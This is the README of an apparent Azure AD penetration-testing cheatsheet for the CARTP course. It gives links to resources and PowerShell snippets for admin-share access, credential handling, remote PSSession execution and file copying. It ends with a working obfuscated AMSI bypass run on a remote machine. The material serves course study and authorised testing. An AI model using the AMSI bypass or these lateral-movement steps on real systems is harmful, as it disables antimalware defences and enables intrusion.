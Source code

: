 # CARTP-cheatsheet
Azure AD cheatsheet for the CARTP course

# Sumarry
* [General](#General)
* [Recon \ OSINT](recon.md)
* [Initial access attacks](initial-access-attacks.md)
* [Authenticated enumeration](Authenticated-enumeration.md )
* [Privilege Escalation](privilege-escalation.md)
* [Cloud <-> On-Prem - Lateral Movement](Cloud-OnPrem-lateral-movement.md)
* [Persistence](persistence.md)

# General
- List of Microsoft portals https://msportals.io/
- Great resources
  - https://pentestbook.six2dez.com/enumeration/cloud/azure
  - https://github.com/Kyuu-Ji/Awesome-Azure-Pentest
  - https://github.com/dafthack/CloudPentestCheatsheets/blob/master/cheatsheets/Azure.md
#### Access C disk of a computer (check local admin)
```
ls \\<COMPUTERNAME>\c$
```

#### Use this parameter to not print errors powershell
```
-ErrorAction SilentlyContinue
```

#### Rename powershell windows
```
$host.ui.RawUI.WindowTitle = "<NAME>"
```

#### Save Credentials
```
$creds = get-credential

$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<USERNAME>', $password)
```

## PSSession
#### Save pssession in variable
```
$sess = New-PSSession -Credential $creds -ComputerName <IP>
```

#### Run commands on machine
```
Invoke-Commannd -ScriptBlock {COMMAND} -Session $sess
```

#### Load script on machine
```
Invoke-Commannd -Filepath <PATH TO SCRIPT> -Session $sess
```

#### Copy item through PSSession
```
Copy-Item -ToSession $sess -Path <PATH> -Destination <DEST> -verbose
```

#### AMSI bypass on machine
```
Invoke-Command -Scriptblock {sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )} -Session $sess
```
